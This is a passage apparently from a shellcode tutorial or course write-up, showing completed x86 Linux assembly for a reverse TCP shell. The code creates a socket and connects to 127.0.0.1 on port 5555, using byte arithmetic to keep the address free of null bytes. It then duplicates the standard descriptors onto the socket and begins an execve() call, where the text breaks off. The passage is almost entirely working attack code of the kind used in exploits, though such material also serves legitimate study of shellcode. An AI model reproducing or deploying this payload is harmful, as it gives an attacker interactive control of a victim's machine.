 ## Completed Assembly Code 

```nasm
global_start

section .text
_start:

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	
	; SYS CALL #1 = socket()
	
	mov ax, 0x167
	mov bl, 0x02
	mov cl, 0x01
	
	int 0x80
	mov edi, eax

	; SYS CALL #2 = connect()

	xor eax, eax
	mov ax, 0x16a 
	mov ebx, edi
	xor ecx, ecx
	push ecx		; pushing our 8 bytes of zero as per: home.iitk.ac.in/~chebrolu/scourse/slides/sockets-tutorial.pdf
				      
	
	mov ecx, 0x02010180     ; moving 2.1.1.128 into ecx
	sub ecx, 0x01010101     ; subtracting 1.1.1.1 from ecx
	
	push ecx		      ; putting 1.0.0.127 onto the stack (null free)
	push word 0xb315	      ; port 5555
	push word 0x02		      ; AF_INET
	
	mov ecx, esp
	mov dl, 16
	
	int 0x80

	; SYSCALL #3 = dup2()

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	mov cl, 0x3
	
	loop_dup2:
	mov al, 0x3f
	mov ebx, edi
	dec cl
	int 0x80
	
	jnz loop_dup2

	; SYSCALL #4 = execve()
 
  	xor eax, eax
```
